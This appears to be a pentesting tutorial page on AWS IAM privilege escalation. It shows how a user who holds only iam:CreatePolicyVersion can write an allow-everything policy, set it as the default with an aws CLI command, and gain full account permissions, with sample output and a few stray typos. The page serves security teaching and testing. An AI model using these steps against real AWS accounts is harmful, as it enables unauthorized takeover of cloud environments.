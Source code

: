 
- https://labs.bishopfox.com/tech-blog/privilege-escalation-in-aws
- https://github.com/andresriancho/enumerate-iam
- https://github.com/toniblyx/my-arsenal-of-aws-security-tools

## Creating new policy version
 
Users with the `iam:CreatePolicyVersion` permission are allowed to create a new version of an existing policy. 
Consequently, they can create a policy that allows more permissions than what they currently have.

The user needs to have this permission for a resource that applies to them. 
This only works if they can change a policy that affects them (e.g., through a group or a role).

### Example 
Our user is part of only a single group and has no other permissions assigned to them. 
The policy applied to the group allows only iam:CreatePolicyVersion, but it allows this permission on any resource:

```json
{
   "Version": "2012-10-17",
   "Statement": [
       {
           "Sid": "PrivEsc1",
           "Effect": "Allow",
           "Action": "iam:CreatePolicyVersion",
           "Resource": "arn:aws:iam::*:policy/*"
        }
     ]
}
```

To escalate privileges, the user creates a new policy document that permits all AWS actions:

```bash
$ cat admin_policy.json
{
   "Version": "2012-10-17",
   "Statement": [
       {
           "Sid": "AllowEverything",
           "Effect": "Allow",
           "Action": "*",
           "Resource": "*"
       }
    ]
 }
```

The user then issues the aws command to create a new version of the policy that is applied to their group.

```bash
$ aws iam create-policy-version --policy-arn arn:aws:iam::[ACCOUNT-ID]:policy/privesc1 --policy-document file://admin_policy.json --set-as-default --profile privesc}

{
	"PolicyVersion": {
    	"CreateDate": "2019-03-06T20:56:41Z",
        "VersionId": "v2",
        "IsDefaultVersion": true
 	}
}
```
 
The result is that the user now has full AWS permissions:

```bash
$ aws iam get-policy-version --policy-arn arn:aws:iam:: [ACCOUNT-ID]:policy/privesc1 --version-id v2}

{
 	"PolicyVersion": {
		 "CreateDate": "2019-03-06T20:56:41Z",
         "VersionId": "v2",
         "Document": {
         	"Versionâ€ť: "2012-10-17",
            "Statement": [
            	{
                	"Action": "*",
                    "Resource": "*",
                    "Effect": "Allow",
                    "Sid": "AllowEverything"
 				}
			 ]
 		},
		"IsDefaultVersion": true
	 }
}
```